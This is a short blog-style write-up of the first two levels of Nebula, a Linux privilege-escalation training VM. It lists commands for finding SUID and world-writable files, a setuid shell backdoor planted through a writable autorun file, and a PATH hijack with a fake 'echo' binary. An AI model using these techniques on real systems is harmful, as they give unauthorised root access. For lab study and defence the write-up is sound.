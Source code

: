 ```yaml
---
layout:     post
title:      nebula系统学习
date:       2016-05-19
summary:    study nebula to upgrade new skills
categories: linux
tags:
 - privilege escalation
 - linux
---
```

#### 0xff About Nebula

    Nebula takes the participant through a variety of common (and less than common) weaknesses and vulnerabilities in Linux. It takes a look at

    SUID files
    Permissions
    Race conditions
    Shell meta-variables
    $PATH weaknesses
    Scripting language weaknesses
    Binary compilation failures

    At the end of Nebula, the user will have a reasonably thorough understanding of local attacks against Linux systems, and a cursory look at some of the remote attacks that are possible.

    official website:       https://exploit-exercises.com/nebula/
    nebula.iso download:    https://pan.baidu.com/s/1dFdRIm9
    some witeup:    
                            google-->cache:https://lightless.me/archives/Nebula-writeup.html
                            or
                            https://pan.baidu.com/s/1mhQgqCg
                            or
                            https://github.com/join-us/exploit-exercises/blob/master/Nebula/level11.md

#### 0x00 level00
    mykey:
        su - level00
        pass:level00
        find / -type f -perm -4000 -ls > tmp.txt
    link knowledge:
        linux中suid,sgid,sticky详解:https://crazyming.blog.51cto.com/1048571/467414
        find / -type f -perm -4000 -ls > tmp.txt   function:find suid files
            find / -type f -perm -4000 -ls | grep "flag00" > tmp.txt    function:find file has setuid=flag00
        find / -type f -perm -2000 -ls > tmp.txt   function:find sgid files
        find / -perm -2 -type f -print             function:find files can be writeable by everyone
            echo "/bin/cp /bin/sh /tmp/.sh;chmod 4755 /tmp/.sh" >> writeable_file_if_it_is_from_any_autorun_directory
            /tmp/.sh -p(this command to get a euid=root shell)
    
#### 0x01 level01
    mykey:
        su - level01
        password:level01
        PATH=/tmp:$PATH;export PATH;echo $PATH
        vi /tmp/echo
        -----content-----
        /bin/sh
        ------end--------
        chmod +x /tmp/echo
        cd /home/flag01
        ./flag01
        getflag
